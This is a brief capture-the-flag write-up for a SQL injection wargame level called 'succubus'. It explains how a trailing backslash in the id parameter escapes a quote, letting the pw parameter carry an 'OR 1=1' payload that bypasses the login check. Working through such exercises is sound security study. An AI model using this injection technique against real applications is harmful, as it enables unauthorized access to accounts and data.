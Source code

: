 ```yaml
---
custom_edit_url: null
sidebar_position: 16
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/2a9c4032-64cc-47b9-9c0f-ac36fc7a30d0)

We are provided with the SQL query:

```sql
SELECT id FROM prob_succubus WHERE id='{$_GET[id]}' AND pw='{$_GET[pw]}'
```

We cannot use single or double quotes in this challenge. Therefore, we need to find another way to modify the existing query.

Let's provide the following URI parameter:

```
?id=\
```

The resultant query becomes:

```sql
SELECT id FROM prob_succubus WHERE id='\' AND pw='{$_GET[pw]}'
```

As we can see, now the `\' AND pw=` part is being treated as a string. This is because the `\` character escapes the following character which was the closing single quote.

Anything we insert into the `?pw` parameter will thus be treated as code.

If we provide the following URI parameter:

```
?id=\&pw= OR 1=1 -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_succubus WHERE id='\' AND pw=' OR 1=1 -- -'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/36ca117e-f23f-4700-ae78-4f81102e8922)
